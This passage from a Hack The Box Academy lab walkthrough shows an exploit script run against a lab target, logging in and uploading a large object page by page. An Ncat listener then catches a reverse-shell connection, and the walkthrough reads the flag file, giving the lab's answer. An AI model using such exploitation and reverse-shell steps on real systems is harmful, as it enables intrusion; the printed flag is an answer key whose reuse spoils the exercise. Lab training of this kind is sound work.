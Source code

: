 Code: shell

```shell
python3 exploit.py 
```

```
┌─[us-academy-1]─[10.10.14.189]─[htb-ac-413848@htb-jexdps7n8s]─[~]
└──╼ [★]$ python3 exploit.py 

[*] Logged in
[*] Created large object with ID: 52145
[*] Uploading Page: 0, Offset: 0
[*] Uploading Page: 1, Offset: 2048
[*] Uploading Page: 2, Offset: 4096
[*] Uploading Page: 3, Offset: 6144
[*] Uploading Page: 4, Offset: 8192
[*] Uploading Page: 5, Offset: 10240
[*] Uploading Page: 6, Offset: 12288
[*] Uploading Page: 7, Offset: 14336
[*] Uploading Page: 8, Offset: 16384
[*] Uploading Page: 9, Offset: 18432
```
```
Ncat: Connection from 10.129.204.251.
Ncat: Connection from 10.129.204.251:60636.
```

Listing the contents of the folder `/opt/Pass2`, students will find the file `flag_674jkh23.txt`:

```shell
ls /opt/Pass2/
```
```
ls /opt/Pass2/

Pass2-1.0.3.jar
flag_674jkh23.txt
init_97vibu27.sql
```

At last, when printing the contents of the flag file `/opt/Pass2/flag_674jkh23.txt`, students will attain `HTB{6572f826fbab3708e9b20a3c993d1ef7}`:

```shell
cat /opt/Pass2/flag_674jkh23.txt
```
```
cat /opt/Pass2/flag_674jkh23.txt

HTB{6572f826fbab3708e9b20a3c993d1ef7}
```

Answer: `HTB{6572f826fbab3708e9b20a3c993d1ef7}`
